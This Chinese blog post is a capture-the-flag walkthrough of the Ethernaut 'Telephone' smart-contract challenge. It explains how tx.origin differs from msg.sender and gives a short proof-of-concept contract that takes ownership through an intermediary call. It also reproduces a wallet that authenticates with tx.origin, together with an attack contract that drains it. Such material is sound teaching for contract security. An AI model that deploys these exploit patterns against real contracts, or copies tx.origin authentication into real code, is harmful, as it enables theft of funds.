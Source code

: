 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-3'
date: 2022-12-8 18:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'






---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第四关Telephone  思路与POC

##### 目标: 更改合约的拥有者

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
  //定位flag代码, 问题在tx.origin这个全局变量. 
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

#### 这关实际是想说明tx.origin和msg.sender两个全局变量的区别

##### tx.origin：记录原始交易发起者的地址

##### msg.sender：记录最新一次交易发起者的地址

##### poc思路:point_right:：要使原始交易发起者地址与最近一次交易发起者地址不同只需要加中间层，即中间合约代替我们的钱包地址发起交易

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract fish {
//在中间合约发起交易
    Telephone tel = Telephone(0xe2eB2bd7702D93f7d2Daa5b1362819421D186542);
   function changeOwner(address owner_) public{
        tel.changeOwner(owner_);
   }
}
```

#### 其实使用tx.origin用作鉴权往往能够导致钓鱼攻击 examle :

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;
// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function transferTo(address payable dest, uint amount) public {
        // 校验只有合约拥有者才能转账,但是使用tx.origin校验(无法验证是否有恶意合约中间调用)
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}


contract TxAttackWallet {
    address payable owner;
 TxUserWallet txu = TxUserWallet(address....)
    constructor() {
        owner = payable(msg.sender);
    }
    //只要接收到的是TxUserWallet合约的拥有者发起的交易 那么此处调用transfer方法是可以通过校验的
    receive() external payable {
        TxUserWallet.transferTo(owner, msg.sender.balance);
    }
}
```

